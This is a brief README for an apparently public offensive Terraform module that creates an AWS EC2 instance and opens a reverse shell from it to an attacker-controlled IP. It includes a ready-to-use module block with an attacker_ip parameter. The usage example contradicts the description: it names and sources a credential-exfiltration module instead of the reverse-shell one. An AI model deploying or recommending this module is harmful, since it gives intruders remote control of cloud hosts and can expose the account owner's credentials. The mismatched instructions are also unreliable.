 # AWS EC2 Instance Reverse Shell Module

![OffensiveTerraform](https://img.shields.io/badge/hack-success)
![OffensiveTerraform](https://img.shields.io/badge/offensive-terraform-blueviolet)

Offensive Terraform module which creates EC2 instance and reverse shell from an EC2 instance to attacker machine.

![Attack Diagram](https://raw.githubusercontent.com/offensive-terraform/terraform-aws-ec2-instance-reverse-shell/master/diagram.jpg)

## Usage
```
module "ec2_instance_credential_exfiltration" {
    source  = "offensive-terraform/ec2-instance-credential-exfiltration/aws"

    subnet_id = "subnet-0a4a1cc04"
    attacker_ip = "0.0.0.0"
}
```
## Author
Module managed by https://github.com/iganbold